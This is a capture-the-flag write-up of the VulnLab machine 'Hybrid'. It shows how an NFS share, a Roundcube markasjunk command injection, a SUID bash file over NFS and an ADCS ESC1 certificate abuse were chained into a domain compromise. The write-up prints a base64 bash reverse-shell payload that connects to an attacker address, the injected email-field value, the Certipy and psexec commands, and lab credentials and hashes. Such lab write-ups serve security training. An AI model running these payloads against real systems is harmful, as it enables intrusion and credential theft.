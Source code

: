 ```yaml
---
title: Hybrid
date: 2024-06-01 09:45:47 +07:00
modified: 2024-06-01 09:45:47 +07:00
tags: [ Hybrid, VulnLab, chain, ADCS, certipy, NFS, roundcube, SUID, no-root-squash, Writeup]
description: Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.
image: https://photos.squarezero.dev/file/abir-images/Hybrid/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Hybrid/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Hybrid</font>

​		13<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description:

Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.

### Difficulty:

`Easy`


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```

```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

### Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/Hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/Hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/11.png)

### www-date to Peter

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/Hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/15.png)

### Peter to Root

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/16.png)



With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/17.png)

### DC01.hybrid.vl

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/Hybrid/21.png)

Now I can request pfx with the right length of RSA

`certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c5246fdbc7ba95dcef4126d57bd' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/23.png)

60701e8543c9f6db1a2af3217386d3dc

Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/Hybrid/24.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/25.png)

### Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/26.png)